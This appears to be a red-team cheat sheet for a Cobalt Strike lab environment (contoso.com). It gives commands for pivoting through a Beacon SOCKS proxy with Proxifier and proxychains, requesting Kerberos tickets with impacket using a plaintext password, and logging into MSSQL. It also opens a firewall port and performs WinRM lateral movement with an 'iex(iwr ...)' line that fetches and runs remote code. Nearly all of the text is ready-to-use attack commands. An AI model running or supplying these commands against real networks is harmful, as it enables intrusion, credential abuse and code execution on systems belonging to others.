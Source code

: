 
Add manual DNS entries
```powershell
Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.1 lon-dc-1'

Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.20 lon-db-1'
```

Start a socks proxy within Beacon
```powershell
socks 1080 socks5
```

##### Proxifier
1. Go **Profile** > **Proxy Servers** and add a new proxy server.
	- Address: `teamserver_ip`
	- Port: 1080
	- Protocol: Version 5
	- Use this proxy by default? -> No.
2. Go **Profile** > **Proxification Rules** and add the following rule
	- Name: Beacon
	- Applications: Any
	- Target hosts: 10.10.120.0/23
	- Target ports: Any
	- Action: Proxy SOCKS5 10.0.0.5

##### Proxychains

Edit `/etc/proxychains.conf` accordingly
```powershell
socks5 [teamserver_ip] 1080
```

Use proxychains to requests tickets and perform attacks
```bash
proxychains getTGT.py 'CONTOSO.COM/rsteel:Passw0rd!' -dc-ip 10.10.120.1

proxychains mssqlclient.py contoso.com/rsteel@lon-db-1 -windows-auth -no-pass -k -dc-ip 10.10.120.1
```

---

##### Reverse Port Forward

Create port forward on foothold machine
```powershell
run netsh advfirewall firewall add rule name="Debug" dir=in action=allow protocol=TCP localport=28190
```

Perform lateral movement
```powershell
remote-exec winrm lon-ws-1 iex(iwr http://lon-wkstn-1:28190/test -useb)
```